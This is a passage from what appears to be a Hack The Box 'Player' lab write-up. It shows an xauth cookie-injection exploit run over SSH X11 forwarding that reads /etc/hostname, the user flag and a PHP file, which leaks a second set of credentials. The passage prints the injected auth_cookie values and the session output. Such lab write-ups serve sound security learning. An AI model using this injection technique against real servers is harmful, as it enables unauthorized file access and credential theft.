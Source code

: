 ![](/assets/images/htb-writeup-player/sshd_config.png)

X11Forwarding is enabled and it's not a default configuration so this is probably a hint that I'm on the right track.

To run the exploit I just pass the IP/port and the credentials, then once it's connected I can write and read files. To verify that's it's working correctly, I read `/etc/hostname` and see that it returns `player` as expected.

```
root@ragingunicorn:~/htb/player# python xauth.py 10.10.10.145 6686 telegen 'd-bC|jC!2uepS/w'
INFO:__main__:connecting to: telegen:d-bC|jC!2uepS/w@10.10.10.145:6686
INFO:__main__:connected!
INFO:__main__:
Available commands:
    .info
    .readfile <path>
    .writefile <path> <data>
    .exit .quit
    <any xauth command or type help>

#> .readfile /etc/hostname
DEBUG:__main__:auth_cookie: 'xxxx\nsource /etc/hostname\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:player
#>
```

I'll grab the flag next since I know the user directory is `/home/telegen`:

```
#> .readfile /home/telegen/user.txt
DEBUG:__main__:auth_cookie: 'xxxx\nsource /home/telegen/user.txt\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:30e47ab....
```

On the staging site there was that `fix.php` file that was erroring out but I couldn't read it from the ffmpeg exploit. I have access to read this file now with `telegen` and I can a potential set of credentials: `peter / CQXpm\z)G5D#%S$y=`

```
#> .readfile /var/www/staging/fix.php
DEBUG:__main__:auth_cookie: 'xxxx\nsource /var/www/staging/fix.php\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:<?php
class
protected
...
//modified
//for
//fix
//peter
//CQXpm\z)G5D#%S$y=
}
public
if($result
static::passed($test_name);
...
```
